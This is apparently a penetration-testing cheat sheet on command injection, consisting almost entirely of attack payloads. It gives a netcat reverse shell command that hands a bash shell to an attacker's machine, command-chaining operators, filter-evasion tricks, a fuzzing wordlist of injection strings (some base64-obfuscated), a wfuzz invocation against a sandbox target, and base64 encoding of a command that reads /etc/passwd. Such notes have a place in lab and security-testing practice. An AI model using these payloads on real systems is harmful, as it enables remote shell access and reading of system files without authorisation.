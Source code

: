 "Safest" reverse shell
```
/bin/nc -nv [kali-ip] 4242 -e /bin/bash
```
[All Reverse Shell Options](https://gtfobins.github.io/#+reverse%20shell)

Command Concatenation 
```
&&
||
`cmd`
$(cmd)
;cmd
```
Input sanitization dodging
```
wh$()oami
```
"Bogus cmd injection wordlist for fuzzing"
```
bogus
;id
|id
`id`
i$()d
;i$()d
|i$()d
FAIL||i$()d
&&id
&id
FAIL_INTENT|id
FAIL_INTENT||id
`sleep 5`
`sleep 10`
`id`
$(sleep 5)
$(sleep 10)
$(id)
;`echo 'aWQK' |base64 -d`
FAIL_INTENT|`echo 'aWQK' |base64 -d`
FAIL_INTENT||`echo 'aWQK' |base64 -d`
```

And then 
`wfuzz -c -z file,/home/kali/command_injection_custom.txt --hc 404 http://ci-sandbox:80/php/blocklisted.php?ip=127.0.0.1FUZZ`
	
If you're positive the target exploit is Command Injection and can't get hits try:
	
[Command Injection Wordlist](https://github.com/payloadbox/command-injection-payload-list)
	
Bypassing with base64 encode
```
kali@kali:~$ echo "cat /etc/passwd" | base64

Y2F0IC9ldGMvcGFzc3dkCg==
```
